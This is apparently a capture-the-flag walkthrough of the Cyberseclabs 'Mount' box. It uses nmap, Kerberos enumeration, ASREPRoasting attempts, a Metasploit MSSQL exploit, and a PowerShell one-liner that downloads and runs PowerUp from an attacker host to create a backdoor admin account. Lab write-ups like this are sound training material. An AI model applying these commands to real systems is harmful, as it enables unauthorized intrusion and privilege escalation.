 In this walkthrough, we'll go over a challenge (intermediate - advance) level box called "Mount". Mount is one of the realistic and fun boxes on [Cyberseclabs.co.uk](https://www.cyberseclabs.co.uk).

![Mount IP](mountIP.png)

Let's start the scanning process with nmap:
```bash
nmap -T4 -A 172.31.3.5 -oX mount_scan.xml
```
![Mount nmap Scan](mountNmapScan.png)

We can also look at the result in html format:

![Mount nmap Scan XML](mountNmapScanXML.png)

As we can see there are a lot of services running on this machine from LDAP to MSSQL so let's start our enumeration with LDAP:
```bash
nmap -n -sV --script "ldap* and not brute" -p 389 172.31.3.5 -oX mount_ldap.xml
```
I was hoping to find some user or SPNs (Service Principal Names), but this only returned some basic information, such as the domain name:

![Mount LDAP enum XML](mountLDAPenumXML.png)

My next enumeration was kerberos since the port 88 was open:
```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='mount.csl'" 172.31.3.5
```
![Mount Nmap Kerberos enum](mountNmapKerberosEnum.png)

It looks like we have admin user in the domain, can we get more information, such as non-preauth AS_REP responses. In simple terms, we are checking if the Kerberos pre-authentication was disabled for this user and vulnerable to ASREPRoasting. If this query is successful, we can obtain the TGT for a service account: 
```bash
GetNPUsers.py -dc-ip 172.31.3.5 mount.csl/administrator
```
![Mount impacket ASREP](mountGetNPUsers.png)

Unfortunately, this was unsuccessful. My next enumeration would be targeting MSSQL since it is a service, let's see if we can find anything there. For this, I am using ```admin/mssql/mssql_enum``` module in Metasploit:

![Mount MSF MSSQL enum 1](mountMSFmssqlenum_1.png)

And this returns some users and service accounts:

![Mount MSF MSSQL enum 2](mountMSFmssqlenum_2.png)

Let's use another Metasploit module to pull more service account and user names, the module is ```auxiliary/admin/mssql/mssql_enum_sql_logins```:

![Mount MSF MSSQL enum 3](mountMSFmssqlenum_3.png)
![Mount MSF MSSQL enum 4](mountMSFmssqlenum_4.png)

Now, we have a bunch of service account and user names and let's try ASREPRoasting again:

![Mount All Users](mountAllUsers.png)

```bash
GetNPUsers.py -dc-ip 172.31.3.5 mount.csl/ -usersfile users.txt -no-pass
```
![Mount impacket ASREP All Users](mountGetNPUsersAllUsers.png)

And we have nothing. We know that MSSQL is running and we can enumerate, can we try an exploit on this service? Let's try Metasploit ```exploit/windows/mssql/mssql_payload```:

![Mount MSF MSSQL exploit](mountMSFmssqlExploit.png)
![Mount MSF MSSQL shell](mountMSFshell.png)

Yayyy, we got a shell as MSSQLSERVER service account. However, this doesn't give us the admin privileges to read the flags from both user and system.

There is a very powerful PowerShell script called PowerUp which enumerates everything and reports back all the security holes so let's upload that to the newly compromised machine and find out how we can escalate our privileges:

You just need to locate your PowerUp.ps1 and start a Python server, and then in the meterpreter shell we can download file and run it:

![Mount Python Server](mountPythonServer.png)
![Mount Python Server PS 1](mountPythonServerPS1.png)
![Mount Python Server PS 2](mountPythonServerPS2.png)

When we scroll down to the result, we'll see that service name UsoSvc has admin privileges:

![Mount Python Server PS 3](mountPythonServerPS3.png)

It is suggesting that we should run ```Invoke-ServiceAbuse -Name 'UsoSvc'```. Let's do it:
```bash
iex (New-Object Net.Webclient).DownloadString('http://10.10.0.125/PowerUp.ps1');Invoke-ServiceAbuse -Name 'UsoSvc'
```
![Mount Privesc](mountPrivEsc.png)

As we can see we have just created a user called John with Password123! and added to the administrators group so John is an admin on this machine. Can we try to loign as John to this machine?
```bash
evil-winrm -i 172.31.3.5 -u john -p 'Password123!'
```
![Mount EvilWinrm 1](mountEvilWinrm1.png)

Let's list all the users:

![Mount EvilWinrm 2](mountEvilWinrm2.png)

Flags are located in the respective users' desktops:

![Mount Access Flag](mountAccessFlag.png)
![Mount System Flag](mountSystemFlag.png)

Now, we have captured both user/access and root/system flags...

I hope you enjoyed this walkthrough..

Thank you for reading...

[<= Go Back to Cyberseclabs Walkthrouhgs](CyberseclabsWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
